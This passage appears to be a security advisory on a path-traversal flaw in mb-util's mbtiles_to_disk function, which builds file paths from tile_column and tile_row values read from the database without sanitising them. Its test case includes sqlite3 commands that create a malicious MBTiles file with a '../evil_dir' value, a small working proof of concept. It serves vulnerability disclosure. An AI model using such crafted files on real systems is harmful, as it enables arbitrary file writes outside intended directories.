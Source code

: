 * Source Code Analysis:
    ```python
    def mbtiles_to_disk(mbtiles_file, directory_path, **kwargs):
        # ...
        base_path = directory_path
        # ...
        tiles = con.execute('select zoom_level, tile_column, tile_row, tile_data from tiles;')
        t = tiles.fetchone()
        while t:
            z = t[0] # zoom_level from database
            x = t[1] # tile_column from database - POTENTIALLY MALICIOUS
            y = t[2] # tile_row from database - POTENTIALLY MALICIOUS
            # ...
            tile_dir = os.path.join(base_path, str(z), str(x)) # vulnerable path construction
            # ...
            tile = os.path.join(tile_dir,'%s.%s' % (y, kwargs.get('format', 'png'))) # vulnerable path construction
            f = open(tile, 'wb') # file creation based on potentially malicious path
            # ...
    ```
    - The vulnerability lies in using `x = t[1]` (`tile_column`) and `y = t[2]` (`tile_row`) from the database directly in `os.path.join` without sanitization.
    - If the MBTiles file contains malicious values in `tile_column` or `tile_row` (like "../evil_dir"), path traversal will occur during file creation.

* Security Test Case:
    1. Create a malicious MBTiles file `malicious.mbtiles` using sqlite:
       ```bash
       sqlite3 malicious.mbtiles "CREATE TABLE tiles (zoom_level INTEGER, tile_column INTEGER, tile_row INTEGER, tile_data BLOB);"
       sqlite3 malicious.mbtiles "INSERT INTO tiles (zoom_level, tile_column, tile_row, tile_data) VALUES (0, '../evil_dir', 'file', 'test data');"
       ```
    2. Execute: `mb-util malicious.mbtiles output_test_dir`
    3. Check if a directory `evil_dir` has been created in the parent directory of `output_test_dir`, and if a file `file.png` exists within `evil_dir`.
    4. Successful creation of `evil_dir` and `file.png` outside `output_test_dir` confirms the vulnerability.